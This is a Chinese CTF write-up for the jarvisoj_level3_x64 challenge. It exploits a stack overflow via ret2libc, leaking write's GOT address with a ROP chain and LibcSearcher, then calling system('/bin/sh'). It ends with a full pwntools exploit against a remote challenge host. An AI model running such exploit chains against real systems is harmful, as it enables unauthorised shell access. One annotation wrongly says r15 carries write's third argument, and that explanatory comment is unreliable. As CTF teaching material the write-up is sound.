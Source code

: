 ## jarvisoj_level3_x64+write函数的原型

附件

步骤：

例行检查，64位程序，开启了nx保护

试运行一下程序，看看大概的情况

64位ida载入，习惯性的检索字符串，没有发现可以直接利用的system，估计使用ret2libc的方法
从main函数开始看程序

function（）函数

输入点buf明显的溢出漏洞，read之前已经调用过一个write函数了，可以利用它来泄露libc版本
利用过程
泄露libc版本
64位汇编传参，当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。
当参数为7个以上时， 前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中，即和32位汇编一样。
我们这边要利用write函数去泄露libc版本

```
write函数的原型，它有三个参数，所以我们这边需要用到三个寄存器去传参
ssize_t write(int fd,const void*buf,size_t count);
参数说明：
  fd:是文件描述符（write所对应的是写，即就是1）
  buf:通常是一个字符串，需要写入的字符串
  count：是每次写入的字节数
```


利用ROPgadget找一下设置寄存器的指令

```
rdi=0x4006b3
rsi_r15=0x4006b1

rdi=0x4006b3
rsi_r15=0x4006b1
write_plt=elf.plt['write']
write_got=elf.got['write']
main=0x40061A

payload='a'*(0x80+8)+p64(rdi)+p64(1)           #rdi寄存器设置write函数的第一个参数为‘1’
payload+=p64(rsi_r15)+p64(write_got)+p64(4)   #rsi寄存器设置write函数的第二个参数为write_got表的地址，r15寄存器设置write函数的第三个参数为8
payload+=p64(write_plt)   #去调用write函数
payload+=p64(main)        #控制程序流，回到main函数，继续控制

r.sendlineafter('Input:',payload)

write_addr=u64(r.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
```



计算出程序里的system和bin/sh的真实地址

```
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system_addr=libc_base+libc.dump('system')
binsh=libc_base+libc.dump('str_bin_sh')
```

构造payload，获取shell
payload='a'*(0x80+8)+p64(rdi)+p64(binsh)+p64(system_addr)

完整exp：

```
from pwn import *
from LibcSearcher import *

r=remote('node3.buuoj.cn',29886)
context(os = "linux", arch = "amd64", log_level= "debug")

elf=ELF('./level3_x64')

#libc=ELF('./libc-2.19.so')

write_plt=elf.plt['write']
write_got=elf.got['write']
main=0x40061A

rdi=0x4006b3
rsi_r15=0x4006b1

payload='a'*(0x80+8)+p64(rdi)+p64(1)
payload+=p64(rsi_r15)+p64(write_got)+p64(8)
payload+=p64(write_plt)
payload+=p64(main)

r.sendlineafter('Input:',payload)

write_addr=u64(r.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
#write_addr=u64(r.recvuntil('\n')[:-1].ljust(8,'\0'))


print hex(write_addr)

libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system_addr=libc_base+libc.dump('system')
binsh=libc_base+libc.dump('str_bin_sh')

payload='a'*(0x80+8)+p64(rdi)+p64(binsh)+p64(system_addr)

r.sendlineafter('Input:',payload)

r.interactive()
```



